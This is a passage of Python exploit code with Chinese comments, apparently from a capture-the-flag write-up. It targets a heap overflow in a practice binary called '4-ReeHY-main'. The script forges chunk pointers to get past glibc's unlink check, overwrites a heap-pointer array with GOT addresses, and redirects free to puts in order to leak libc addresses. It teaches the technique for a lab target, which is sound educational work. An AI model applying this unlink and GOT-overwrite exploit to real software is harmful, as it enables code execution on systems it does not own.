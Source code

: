 ```python
# FD 和 BK分别是后一个块的指针和前一个块的指针,构成双向链表  
# if (__builtin_expect (FD->bk != P || BK->fd != P, 0))  
#  malloc_printerr (check_action, "corrupted double-linked list", P);  
#为了绕过验证，首先  
# FD = *(P + size + 0x10)  
# BK = *(P - Prev_Size + 0x18)  
# FD->bk = *(P + size + 0x10) - FD->Prev_Size + 0X18  
# BK->fd = *(P - Prev_Size + 0x18) + BK->size + 0x10  
# 上面即检测双向链表的完整性  
# 如果通过  
# unlink里的关键代码  
#   FD->bk = BK;  
#   BK->fd = FD;  
# 我们现在的目的是，利用这两个指针修改的操作，来修改我们想要的位置  
# 这个程序中，在0x6020E0是一个数组，用来保存着4个堆的指针  
# 如果我们想办法把这些堆指针改成某些函数的got表地址，那么我们下次read时，数据就会覆盖got表  
# 因此,如果 (P + size + 0x10) = 0x6020E0 ，(P - Prev_Size + 0x18) = 0x6020E0  
# 即P + size = 0x6020D0，P - Prev_Size = 0x6020C8  
# 即BK = 0x6020D0 ，FD = 0x6020C8  
# 即P->fd = 0x6020C8，P->bk = 0x6020D0  
# 现在，主角是P，我们让第一个堆为主角  
payload += p64(0x6020C8) + p64(0x6020D0)  
#填充满第一个块  
payload += b'a'*(0x100-4*8);  
#溢出到第二个块  
# prev_size   size  
# 对于使用中的块，它的结构是这样的  
# prev_size 8 byte  
# size 8 byte  
#修改第二个块的Prev_Size，造成前一个块被释放的假象  
payload += p64(0x100) + p64(0x100 + 2 * 8)  
#发送payload，修改堆结构  
edit(0,payload)  
#现在我们调用delete(1)释放第二个块，它会和我们伪造的块进行unlink合并  
#  
#   执行  
#   FD->bk = BK;  
#   BK->fd = FD;  
#  
#   即*(0x6020C8+0x18) = 0x6020D0  
#     *(0x6020D0 + 0x10) = 0x6020C8  
#   最终即0x6020E0 = 0x6020C8  
#  这样，由于0x6020E0处是用于保存第1个堆指针的，现在被我们指向了0x6020C8处，于是我们向第1个堆输入数据都会存于这里  
#触发unlink  
delete(1)  
  
elf = ELF('./4-ReeHY-main')  
free_got = elf.got['free']  
puts_got = elf.got['puts']  
atoi_got = elf.got['atoi']  
puts_plt = elf.plt['puts']  
#于是，我们可以根据结构，布局payload来覆盖0x6020E04处的几个堆的指针  
payload = b'\x00'*0x18   #padding  
payload += p64(free_got) + p64(1)  
payload += p64(puts_got) + p64(1)  
payload += p64(atoi_got) + p64(1)  
  
#执行后，前3个堆指针都被我们指向了几个函数的got地址处  
edit(0,payload)  
#修改free的got地址为puts的plt地址  
edit(0,p64(puts_plt))  
#即调用puts_plt(puts_got)，泄露puts的加载地址  
delete(1)  
```